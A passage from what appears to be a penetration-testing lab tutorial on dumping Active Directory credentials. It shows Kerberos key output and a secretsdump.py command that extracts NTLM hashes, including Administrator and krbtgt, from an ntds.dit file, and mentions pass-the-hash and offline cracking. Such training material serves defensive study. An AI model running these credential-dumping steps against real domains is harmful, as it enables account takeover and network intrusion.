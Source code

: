 ```powershell-session
      Credentials:
        DES_CBC_MD5
          Key: d60dfbbf20548938
      OldCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      Flags: 0
    KerberosNew:
      Credentials:
        AES256_CTS_HMAC_SHA1_96
          Key: 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
          Iterations: 4096
        AES128_CTS_HMAC_SHA1_96
          Key: 94c300d0e47775b407f2496a5cca1a0a
          Iterations: 4096
        DES_CBC_MD5
          Key: d60dfbbf20548938
          Iterations: 4096
      OldCredentials:
      OlderCredentials:
      ServiceCredentials:
      Salt: WIN-NB4NGP3TKNKAdministrator
      DefaultIterationCount: 4096
      Flags: 0
    WDigest:
Key Credentials:
Credential Roaming
  Created:
  Modified:
  Credentials:
```

#### Extracting Hashes Using SecretsDump

We can also use `SecretsDump` offline to extract hashes from the `ntds.dit` file obtained earlier. These can then be used for pass-the-hash to access additional resources or cracked offline using `Hashcat` to gain further access. If cracked, we can also present the client with password cracking statistics to provide them with detailed insight into overall password strength and usage within their domain and provide recommendations for improving their password policy (increasing minimum length, created a dictionary of disallowed words, etc.).

Windows Built-in Groups

```shell-session
maiamor@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::

<SNIP>
```

---